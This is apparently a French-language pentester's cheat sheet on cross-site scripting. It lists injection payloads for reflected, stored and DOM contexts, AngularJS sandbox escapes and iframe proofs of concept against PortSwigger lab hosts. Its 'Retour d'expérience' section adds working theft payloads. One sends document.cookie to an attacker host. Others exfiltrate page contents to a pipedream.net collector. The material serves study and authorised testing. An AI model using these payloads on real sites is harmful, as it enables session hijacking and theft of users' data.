 # XSS

## Ressources 

* [SecList](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing)
* [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)


## Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

```html
<script>alert(0)</script>
```

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

```js
onready="alert(0)
```

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

```js
'; alert(0); //
```

# types

## Reflected + Stored

```html
<script>alert(0)</script>
<img src=1 onerror=alert(1)>
<a href="javascript:alert(document.domain)">Click Me</a>
```

parfois il faut jouer avec les "quotes":

```js
"onmouseover="alert(0)'
```

exécutera : 

```js
name=search value=""onmouseover="alert(0)">
```

Quand la saisie réapparait dans un href, on insert directement le code JS:

```js
javascript:alert(document.domain)
```

Si la saisie réapparait dans du code JS, on ferme la quote ' et utilise le signe moins - ou + pour concat:

```js
'+alert(document.cookie)+'
```

## DOM

```html
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>
```

### jQuery + manipulation url


```js
?returnUrl=javascript:alert(document.domain)
```

### AngularJS + ng-app attribute

```js
{{constructor.constructor('alert(1)')()}}
```

### in xhr

```js
\"-alert(1)}//
```

## POC depuis un iframe

```html
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>
```

## custom ID (from malicious server)

```html
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

## Retour d'expérience

### Success

* Lorsque des caractères sont filtrés: utiliser le fuzzer ZAP, le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit jusqu'a avoir des réponses 200 avec chars non encodés
* regarder dans le débugger du navigateur: "inspect element" et onglet "source" pour contrôler l'échappent.

* Vol de cookie (DOM based) : 

```js
test';document.location="https://attacker.lan?c="+document.cookie;'
```

* Vol du contenu la page web :

```html
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```

```html
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```

### Failed

* Le texte issu d'un `InnerHTML` ou d'autre fonction JS similaire n'est pas (toujours) interprété par le Navigateur. 